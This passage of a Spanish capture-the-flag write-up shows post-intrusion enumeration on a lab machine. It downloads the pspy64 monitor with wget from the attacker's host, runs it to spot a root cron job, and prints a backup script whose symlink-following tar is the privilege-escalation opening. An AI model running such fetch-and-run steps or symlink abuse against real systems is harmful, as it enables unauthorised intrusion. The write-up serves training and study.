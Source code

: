 Vamos a descargar el pspy64 y lo vamos a compartir de la misma forma con el servidor http:
```
tom@epsilon:/tmp$ wget http://10.10.14.17/pspy64
--2023-03-05 04:58:39--  http://10.10.14.17/pspy64
Connecting to 10.10.14.17:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   2.96M  1.28MB/s    in 2.3s    

2023-03-05 04:58:42 (1.28 MB/s) - ‘pspy64’ saved [3104768/3104768]

tom@epsilon:/tmp$ chmod +x pspy64
tom@epsilon:/tmp$ ./pspy64
```

Y ahora:

```
spy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
```

Mientras se ejecuta vemos algo interesante:
```
2023/03/05 04:59:01 CMD: UID=0     PID=10156  | /bin/bash /usr/bin/backup.sh 
2023/03/05 04:59:01 CMD: UID=0     PID=10157  | /usr/bin/tar -cvf /opt/backups/606036422.tar /var/www/app/ 
2023/03/05 04:59:01 CMD: UID=0     PID=10159  | /bin/bash /usr/bin/backup.sh 
2023/03/05 04:59:01 CMD: UID=0     PID=10158  | /bin/bash /usr/bin/backup.sh 
2023/03/05 04:59:01 CMD: UID=0     PID=10160  | /bin/bash /usr/bin/backup.sh 
```

Vemos que root está ejecutando el archivo backup.sh, vamos a ver que es:

```bash
#!/bin/bash
file=`date +%N`
/usr/bin/rm -rf /opt/backups/*
/usr/bin/tar -cvf "/opt/backups/$file.tar" /var/www/app/
sha1sum "/opt/backups/$file.tar" | cut -d ' ' -f1 > /opt/backups/checksum
sleep 5
check_file=`date +%N`
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"
/usr/bin/rm -rf /opt/backups/*
```